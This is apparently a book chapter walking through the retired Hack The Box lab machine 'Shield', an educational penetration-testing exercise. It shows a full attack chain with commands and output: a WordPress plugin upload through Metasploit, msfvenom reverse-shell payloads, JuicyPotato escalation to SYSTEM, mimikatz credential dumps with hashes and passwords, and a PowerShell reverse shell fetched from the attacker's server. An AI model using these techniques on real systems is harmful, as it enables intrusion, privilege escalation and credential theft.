

# Exercise: The Shield Box with Metasploit

On logging in to Hack The Box, you will be presented with lots of things you can do via the dashboard \(Figure 1-6\). In this book, we are going to focus on the Machines that are part of the Labs environment of the site. In particular we are going to stick to Retired Machines because writeups and videos discussing approaches to these challenges are public. Remember that to get access to all of the retired machines, you will need a VIP account. A machine is an actual virtual machine that is hosted on a server located in a region that is accessible via VPN connection. You should choose a region that is close to where you live in order to get the best response times from the machines. Hack The Box has a tutorial on how to get VPN access \([https://help.hackthebox.eu/getting-started/v2-introduction-to-vpn-access\](https://help.hackthebox.eu/getting-started/v2-introduction-to-vpn-access\)\). Each machine will have a unique IP address and if the machine is not started already by someone else, you can start the machine and it will run for a minimum of 24 hours. If you haven't finished in that time, you can extend the length of time the machine runs by a further period. When you are ready, you can tackle the Active Machines which are ones for which there are no public writeups or videos available and you are on your own to try and solve the challenge.

All Hack The Box machines present the same goals, getting a user flag which is a 32 character unique hexadecimal string. Once this is obtained, you then need to get the root flag which means getting administrator privileges on the box. In our case studies, I won't explicitly talk about getting these flags although everything we do will allow you to get and submit them.


To get started, we are going to look at a machine called Shield in the Starting Point track. This isn't the first machine in the list but it will enable us to explore some different approaches to tackling these challenges. We will go through the standard enumeration and look for an entry point into a misconfigured WordPress site. We will do this using command line tools and through the use of the amazing Metasploit Framework.

There will be things that you do here that haven’t been covered yet and so I ask that you bear with me and concentrate on the use of Metasploit and meterpreter shells. The other aspects will be dealt with in more detail later. I could have skipped over the initial parts but if you are still uncomfortable, go ahead and read the enumeration section and then come back.

## Setup

To connect to the Starting Point machines, you need to run a VPN with the Starting Point access pack. Download the openvpn configuration file and run that using:

```bash
sudo openvpn <username>-startingpoint.ovpn
```

I find it convenient to add the hostname of the machine in the /etc/hosts file so that I can refer to the hostname and not have to remember the IP address. Add the hostname of the machine and associate it with its IP address:

```bash
sudo vi /etc/hosts
```

and then add

```bash
10.10.10.29 shield.htb
```

Create a directory called Shield that you can use as the working directory for this challenge. Create a sub-directory called nmap to store the nmap results.

## Finding Open Ports and Services

In starting any box on Hack The Box, the first step is to perform enumeration of the network services that the box provides. We are given the IP address of the box and so what we need to know is what ports are open and what services are running on the machines listening on those ports. We will go into networking in the next chapter and describe how services can listen on specific ports for connections from client software. Web servers for example, usually listen on ports 80 and 443. For the time being, however, just follow along without worrying too much about the detail. To scan for open ports on the box, we will use a command line tool nmap.

## Performing an Nmap Scan

To start, add a hostname for the box and associate it with its IP address.

Run an nmap scan in the terminal using the command:

```bash
nmap -Pn -v -sC -sV -p- --min-rate=1000 -T4 shield.htb -o nmap/shield-tcp-full
```

You might see an alternative of this command which is to run an initial scan to get the open ports and then run the second command to get information about the services and versions of software. There isn't very much difference between the two approaches however and so it is easier simply to run the single script.

When run, nmap will report 2 ports open, port 80 and port 3306.

```text
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3306/tcp open mysql MySQL (unauthorized)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The output from nmap tells us that Shield is a windows box running Microsoft IIS web server on port 80. Opening the URL [http://shield.htb](http://shield.htb) gives the default IIS web page.



## Check for Subdirectories

Continuing the enumeration, we want to discover more about the website and in particular, its directory structure and potential files in those directories. Web servers are normally configured to serve HTML and other types of files from a root directory, like /var/www/html/ for example. The root directory may have subdirectories to organize files that the website uses like stylesheets and JavaScript. Subdirectories may also be used for files that belong to other websites.

To explore the subdirectories and files that a website has access to, we can use a tool called gobuster. Gobuster uses dictionaries of common words associated with directories and files and will just repeatedly try URL paths replacing the final part of the path with words from the dictionary. This process is called fuzzing and it is used in hacking to explore the effect of inputs on the outputs of a program.

Running gobuster using the directory dictionary /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt, we discover a sub-directory of the website called wordpress indicated by the status code 301. This status code indicates to the requester that the URL has been moved permanently to another location, in this case to the URL [http://shield.htb/wordpress/](http://shield.htb/wordpress/).

```text
 ──[rin@parrot]─[~/boxes/StartingPoint/Shield]
└──╼ $gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
              -u http://10.10.10.29
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://10.10.10.29
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Timeout: 10s
===============================================================
... Starting gobuster
===============================================================
/wordpress (Status: 301)
```

The url [http://shield.htb/wordpress](http://shield.htb/wordpress) reveals a wordpress website called SHIELDSUP that features blog posts by a user admin. Wordpress sites by default have administration pages at the url [http://shield.htb/wordpress/wp-admin](http://shield.htb/wordpress/wp-admin). you already know a user admin and from a previous machine in the StartingPoint series, you would have discovered the password P@s5w0rd!. Trying this with the user admin gets us in.

## Launching a Meterpreter Reverse Shell

The objective of the challenge is to gain access to the box to explore and hopefully discover more vulnerabilities that can be exploited to gain further privilege and access. This means getting control of user accounts that give progressively more access until we get to be the administrator of the box. Initial access usually refers to gaining a shell as one of these users. A shell is a program that allows a user the ability to type commands and display results.

On Windows it is the **cmd.exe** program, on Linux it is bash or zsh that runs in the terminal program. We have been using a shell on our Parrot box to carry out all of the actions we have taken so far. When a shell is run locally on a box, it is a local shell. Remote shells are those that are accessed over a network connection so that the commands are typed on the local attacker box but run on the remote machine. We can set up a remote shell by running a program on our local Parrot box which listens for connections and then run a program on the remote machine that connects back to the listener and establishes the remote shell session. This is called a reverse shell.

We will explore all of this in more detail in the next chapter, but for the moment, we are going to get a reverse shell using Meterpreter. Time to turn to Metasploit which has a way of launching a meterpreter reverse shell in PHP! Start Metasploit by selecting it from the menu or by running

```bash
sudo msfconsole-start
```

In Metasploit, we are going to use an existing exploit of the WordPress administrator account by uploading a plugin to WordPress that is actually a reverse shell. Plugins, as we see later when we craft our own custom plugin, are ways of packaging PHP code to add functionality to WordPress. The security vulnerability with this is that this code has access to do whatever the user account that is running WordPress can do. There is nothing limiting what code in plugins can do normally. In the case of this exploit, we use the command:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

We can ignore the fact that this is a Windows box not a Unix one. It still works.

You can set the options for this exploit using the set command:

```bash
set PASSWORD P@s5w0rd!
set USERNAME admin
set TARGETURI /wordpress
set RHOSTS 10.10.10.29
set LHOST 10.10.14.2
```

LHOST is the IP address of your attacker machine which you can get using the command “ifconfig”. After doing that, the options should look as follows:

```text
msf6 exploit(unix/webapp/wp_admin_shell_upload) > options
Module options (exploit/unix/webapp/wp_admin_shell_upload):
 Name Current Setting Required Description
 ---- --------------- -------- -----------
 PASSWORD P@s5w0rd! yes The WordPress password to authenticate with
 Proxies no A proxy chain of format type:host:port[,type:host:port][...]
 RHOSTS 10.10.10.29 yes The target host(s), range CIDR identifier, 
 or hosts file with syntax 'file:<path>'
 RPORT 80 yes The target port (TCP)
 SSL false no Negotiate SSL/TLS for outgoing connections
 TARGETURI /wordpress yes The base path to the wordpress application
 USERNAME admin yes The WordPress username to authenticate with
 VHOST no HTTP server virtual host
Payload options (php/meterpreter/reverse_tcp):
 Name Current Setting Required Description
 ---- --------------- -------- -----------
 LHOST 10.10.14.2 yes The listen address (an interface may be specified)
 LPORT 4444 yes The listen port
```

All that remains is to type “run”. The exploit consists of uploading a plugin that consists of a php page and then calling that page. This executes a staged meterpreter reverse shell. The output should be something like:

```text
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run
[*] Started reverse TCP handler on 10.10.14.2:4444
[*] Authenticating with WordPress using admin:P@s5w0rd!...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins
                               /glPxlNrGRx/aaBiENhsux.php...
[*] Sending stage (39189 bytes) to 10.10.10.29
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.29:55060) 
                               at 2020-10-06 14:40:38 +0800
[!] This exploit may require manual cleanup of 'aaBiENhsux.php' on the target
[!] This exploit may require manual cleanup of 'glPxlNrGRx.php' on the target
[!] This exploit may require manual cleanup of '../glPxlNrGRx' on the target
meterpreter >
```

## Upgrading the Meterpreter Reverse Shell

That gives us a meterpreter shell that is a little unstable and also, because it is written in PHP, somewhat limited in its abilities. We are going to generate a better meterpreter shell using a program called msfvenom. To start with we can use msfvenom to generate a Windows executable program that will run the meterpreter reverse shell. To do this, we need to exit from the meterpreter session by typing bg and then hit return.

Then we can type

```text
msf6 exploit(unix/webapp/wp_admin_shell_upload) > 
    msfvenom -p windows/x64/meterpreter_reverse_tcp \
        LHOST=10.10.14.3 LPORT=6001 -f exe > revshell.exe
[*] exec: msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.3 
    LPORT=6001 -f exe > revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows 
    from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 200262 bytes
Final size of exe file: 206848 bytes
```


If you have problems running msfvenom within Metasploit, you can run it from the command line in bash


Once the payload is created, we can upload it to the Shield machine.  We need to get back into the current meterpreter session first. We do that with the sessions command. Just typing sessions will list the current sessions available. We can interact with a session using the sessions -i &lt;session number&gt; command:

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > sessions

Active sessions
===============

  Id  Name  Type                     Information        Connection
  --  ----  ----                     -----------        ----------
  1         meterpreter php/windows  IUSR (0) @ SHIELD  10.10.14.13:4444 -> 
                                                        10.10.10.29:57574 
                                                        (10.10.10.29)

msf6 exploit(unix/webapp/wp_admin_shell_upload) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```

Once back in the meterpreter session , we can upload the revshell.exe using the meterpreter command upload:

```text
meterpreter > upload revshell.exe
[*] uploading : revshell.exe -> revshell.exe
[*] Uploaded -1.00 B of 202.00 KiB (-0.0%): revshell.exe -> revshell.exe
[*] uploaded : revshell.exe -> revshell.exe
meterpreter >
```

Before you run this shell, you want to run another exploit/multi/handler to handle the reverse shell. We need to get out of the meterpreter session to get back to the Metasploit prompt by using the background command "bg". We can then use exploit/multi/handler and set the options to match what we set for the reverse shell with msfvenom above.

```text
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(unix/webapp/wp_admin_shell_upload) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set Payload windows/x64/meterpreter_reverse_tcp
Payload => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.3
LHOST => 10.10.14.3
msf6 exploit(multi/handler) > set LPORT 6001
LPORT => 6001
We can now start the revese shell listener using the command "run -j".
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.3:6001
```

Finally, we need to return to the original meterpreter session to run the new reverse shell payload. To get back to a session, you can list them with the command “sessions” and then select the session by using "sessions -i &lt;session number&gt;"

```text
msf6 exploit(multi/handler) > sessions
Active sessions
===============
 Id Name Type Information Connection
 -- ---- ---- ----------- ----------
 1 meterpreter php/windows IUSR (0) @ SHIELD 10.10.14.3:4444 -> 10.10.10.29:56134 
                                                                (10.10.10.29)
msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...
meterpreter >
```

We can then just execute the meterpreter reverse shell by executing revshell.exe and waiting for the new meterpreter session to start. We then background the first session and interact with the new meterpreter session we just created.

```text
meterpreter > execute -f revshell.exe
Process 3280 created.
meterpreter > [*] Meterpreter session 2 opened (10.10.14.3:6001 -> 
                                10.10.10.29:56135) at 2020-10-08 14:10:38 +0800
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...
meterpreter >
```

We are now in a new, more powerful meterpreter session and typing help will show more commands than were available with the php meterpreter shell \(not all shells are equal\). You can verify this by typing help at the meterpreter command and seeing the range of commands available.

## Discovery and Privilege Escalation

Now that we have achieved initial access, the process of further enumeration or discovery takes place. We are looking for ways of elevating our user account to administrator and gain total ownership of the box. This process is called privilege escalation or priv esc for short.

In Metasploit, you can run a command that will look for particular vulnerabilities that will lead to privilege escalation. This command is the “local\_exploit\_suggester”

```text
meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 2
SESSION => 2
msf6 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.29 - Collecting local exploits for x64/windows...
[*] 10.10.10.29 - 26 exploit checks are being tried...
[+] 10.10.10.29 - exploit/windows/local/bypassuac_sdclt: 
    The target appears to be vulnerable.
[+] 10.10.10.29 - exploit/windows/local/cve_2020_1048_printerdemon: 
    The target appears to be vulnerable.
[+] 10.10.10.29 - exploit/windows/local/cve_2020_1337_printerdemon: 
    The target appears to be vulnerable.
[+] 10.10.10.29 - exploit/windows/local/ms16_075_reflection: 
    The target appears to be vulnerable.
[+] 10.10.10.29 - exploit/windows/local/ms16_075_reflection_juicy: 
    The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```

Normally when reviewing possible exploits, experience will tell you which ones are likely to work better than others. In some cases though it might be a question of trial and error to find one that works. This could be a problem if any of the exploits leave the machine in an unstable state. If that is the case in Hack The Box, you can ask for the machine to be reset.


There is a bug in the current version of Metasploit. If you get an exception "Post failed - NameError uninitialized constant Msf::Exploit::CheckCode::NotSupported" there is a fix on GitHub

Otherwise, you can edit the file yourself:

```bash
sudo vi /usr/share/metasploit-framework/modules/exploits/windows/\
local/cve_2020_1054_drawiconex_lpe.rb
```

and change line 112 from CheckCode::NotSupported to CheckCode::Safe

```text
Remove this on 112 --> return CheckCode::NotSupported
Add this instead   --> return CheckCode::Safe("No target for win32k.sys 
                                        version #{build_num_gemversion}")
```

  
restart metasploit after this.


From experience, I know that the most promising exploit is going to be ms16\_075\_reflection\_juicy which is the JuicyPotato exploit. This vulnerability allows for privilege escalation through impersonation of the System user. It occurs if the user doing the exploit has certain privileges, notable the SeImpersonate privilege. Unfortunately, the Metasploit module doesn’t work as is and so you have to do this manually by downloading JuicyPotato.exe from [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

We can run another handler as before and then upload JuicyPotato.exe. One more step however as executing it from the meterpreter prompt doesn’t work. So you can drop into a cmd.exe shell prompt by typing “shell”. From the command prompt, you can then run the JuicyPotato.exe

```bash
JuicyPotato.exe -t * -p ^
C:\inetpub\wwwroot\wordpress\wp-content\plugins\dBPEarcLsr\revshell.exe -l 1337
```

Remember to change the path of the revshell.exe to the actual path name Meterpreter has used. When JuicyPotato.exe runs, it will start another meterpreter session but as the privileged user that the exploit has impersonated, NT AUTHORITY\SYSTEM. From there, you can cd \(change directory\) into the c:\Users\Administrator directory and find the flag.

```bash
meterpreter > shell
Process 376 created.
Channel 2 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\inetpub\wwwroot\wordpress\wp-content\plugins\dBPEarcLsr>JuicyPotato.exe ^
-t * -p C:\inetpub\wwwroot\wordpress\wp-content\plugins\dBPEarcLsr\revshell.exe ^
 -l 1337
juicypot.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\plugins\
                         dBPEarcLsr\revshell.exe -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
C:\inetpub\wwwroot\wordpress\wp-content\plugins\dBPEarcLsr>
   [*] Meterpreter session 3 opened (10.10.14.3:6001 -> 10.10.10.29:56144) 
      at 2020-10-08 14:38:04 +0800
C:\inetpub\wwwroot\wordpress\wp-content\plugins\dBPEarcLsr>exit
meterpreter > sessions 3
[*] Backgrounding session 2...
[*] Starting interaction with 3...
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## Finding User Credentials

Now that we have administrator privileges, we can do some more discovery to look for any other useful information on the box, in particular, other user accounts and their passwords.

We will come back to this later in the book and deal with it in more details but what you will do is take advantage of a module that Meterpreter allows us to run called “kiwi” that is the module that runs “mimikatz” commands. Mimikatz is a program that has been designed to search for and collect credentials on Windows from a number of different places where these are commonly stored. These include the two main sources:

* Passwords stored in memory. mimikatz looks for passwords that may be in the memory of the Local Security Authority Subsystem Service \(LSASS\) process
* Kerberos: Using an API to access Kerberos credentials \(tickets\) again from memory

To run kiwi, you type “load kiwi” and then “creds\_all”. From this, you can see the user “sandra” has the password “Password1234!” which has been extracted from Kerberos running on the machine.

```text
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============
Username Domain NTLM SHA1 DPAPI
-------- ------ ---- ---- -----
SHIELD$ MEGACORP 9d4feee71a4f411bf92a86b523d64437 0ee4dc73f1c40da71a
                 60894eff504cc732de82da
sandra MEGACORP 29ab86c5c4d2aab957763e5c1720486d 8bd0ccc2a23892a74df
                 bbbb57f0faa9721562a38 f4c73b3f07c4f309ebf086644254bcbc
wdigest credentials
===================
Username Domain Password
-------- ------ --------
(null) (null) (null)
SHIELD$ MEGACORP (null)
sandra MEGACORP (null)
kerberos credentials
====================
Username Domain Password
-------- ------ --------
(null) (null) (null)
IUSR NT AUTHORITY (null)
SHIELD$ MEGACORP.LOCAL cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,
                 AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@
                 -a+qJt_l887Ew&m_ewr??#VE&
sandra MEGACORP.LOCAL Password1234!

shield$ MEGACORP.LOCAL cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,
                 AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@
                 -a+qJt_l887Ew&m_ewr??#VE&
```

If you follow the tutorial on Hack The Box for this machine, some things are different. A different approach is taken to using netcat for reverse shells and running mimikatz.exe directly. The end result is the same however.

## Doing the initial access to Shield manually

You have seen how Metasploit can make discovery and exploitation a simple process of choosing a command, setting options and then typing run. The problem with this is that you don't get to see what is actually happening in each of these steps and so it is difficult to understand what it is you are actually exploiting. In this section, we will do the initial access using our own crafted exploit.

## Getting a reverse shell by uploading a WordPress plugin

Visiting the Shield WordPress site at [http://shield.htb/wordpress](http://shield.htb/wordpress), you will find a website called Shields Up which is for a company supplying electric trucks.


Navigating to the WorPress administration site at [http://shield.htb/wordpress/wp-admin](http://shield.htb/wordpress/wp-admin), you can enter the username and password admin and P@s5w0rd! to get in and get the Dashboard page.


We can now call the reverse shell by entering the url

```bash
http://shield.htb/wordpress/wp-content/plugins/newplugin/revshell.php
```

This should first call the web server to get the PowerShell file

```bash
┌─[rin@parrot]─[~/boxes/StartingPoint/Shield]
└──╼ $python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.29 - - [...] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

And then the reverse shell should then call netcat to give us a PowerShell prompt:

```bash
┌─[rin@parrot]─[~/boxes/StartingPoint/Shield/plugin]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.29] 51298
Windows PowerShell running as user SHIELD$ on SHIELD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\inetpub\wwwroot\wordpress\wp-content\plugins\newplugin>whoami
nt authority\iusr
```

Although the process was more involved, we understood the process much better at the end of it and we got an initial shell that was far more robust than the PHP shell that Metasploit initially established. The way that we did the initial access in this way is more generalizable as well. We will see that we use the same approach repeatedly in different situations where we can't use Metasploit. However, there is no denying that Metasploit speeds things up and if you are working on an assignment which has time \(and cost\) pressures, Metasploit may be the way to go.

There is not necessarily a right or wrong answer when it comes to the choice of tools in most cases but knowing about a range of different approaches gives you the flexibility to select what you think is optimal for a particular situation.

